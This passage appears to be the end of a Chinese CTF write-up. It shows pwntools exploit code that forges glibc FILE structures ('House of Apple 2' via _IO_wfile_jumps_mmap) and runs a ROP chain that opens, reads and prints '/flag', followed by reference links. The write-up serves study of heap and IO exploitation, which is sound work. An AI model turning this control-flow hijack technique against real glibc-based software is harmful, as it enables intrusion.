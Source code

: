 ```python
        set_rdx_0,
        libc.symbols['openat'],

        pops.rdi.address, 3,
        pops.rsi.address, libc.symbols['__abort_msg'], # pick some place to store flag
        set_rdx_0x7f,
        libc.symbols['read'],

        pops.rdi.address, 1,
        pops.rsi.address, libc.symbols['__abort_msg'],
        set_rdx_rax,
        libc.symbols['write'],

        pops.rdi.address, 0,
        libc.symbols['_exit'],
    ])
    assert len(chain) < 0xc8, f'ROP chain too long ({len(chain):#x}) to fit stderr!'
    forged_stderr = chain.ljust(0xc8, b'\0') + b'/flag'.ljust(8, b'\0')

    IO_wfile_jumps_mmap = libc_base + 0x2022d0
    forged_stdout = flat({
        0:      0, # wide_read_ptr
        8:      0, # wide_read_end
    }, {
        8:      libc.symbols['_IO_2_1_stderr_'],        # IO_read_ptr & RDX
        0x10:   libc.symbols['_IO_2_1_stderr_'] + 1,    # IO_read_end
        0x68:   pivot_gadget,                           # DOALLOCATE
        0x88:   libc.symbols['_IO_list_all'],           # lock
        0xa0:   libc.symbols['_IO_2_1_stdout_'] - 0x10, # wide_data
        0xc0:   -1,                                     # mode
        0xd0:   libc.symbols['_IO_2_1_stdout_'],        # wide_vtable
        0xd8:   IO_wfile_jumps_mmap - 0x18,             # vtable
    }, filler=b'\0')

    # 4. Write ROP chain and forged stdout to hijack rip
    t.sendafter(b'3) View note', forged_stderr + forged_stdout)
    t.recvuntil(b'Choice: ')

    flag = t.recvuntil(b'}')
    success(f'Flag is: {flag.decode()}')

    t.close()
```

## 参考

1. [强网杯S9 Polaris战队Writeup](https://blog.xmcve.com/2025/10/20/%E5%BC%BA%E7%BD%91%E6%9D%AFS9-Polaris%E6%88%98%E9%98%9FWriteup/#title-2)
2. [House of Apple 一种新的 glibc 中 IO 攻击方法 (2)](https://roderickchan.github.io/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-2/#%E5%88%A9%E7%94%A8_io_wfile_underflow_mmap%E5%87%BD%E6%95%B0%E6%8E%A7%E5%88%B6%E7%A8%8B%E5%BA%8F%E6%89%A7%E8%A1%8C%E6%B5%81)
3. [x86-64/CET: Extend ucontext_t to save shadow stack](https://github.com/bminor/glibc/commit/25123a1c5c96429d70e75b85a9749b405909d7f2)


[House of Apple 2]: https://roderickchan.github.io/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-2/#%E5%88%A9%E7%94%A8_io_wfile_underflow_mmap%E5%87%BD%E6%95%B0%E6%8E%A7%E5%88%B6%E7%A8%8B%E5%BA%8F%E6%89%A7%E8%A1%8C%E6%B5%81
[7年前的这个commit]: https://github.com/bminor/glibc/commit/25123a1c5c96429d70e75b85a9749b405909d7f2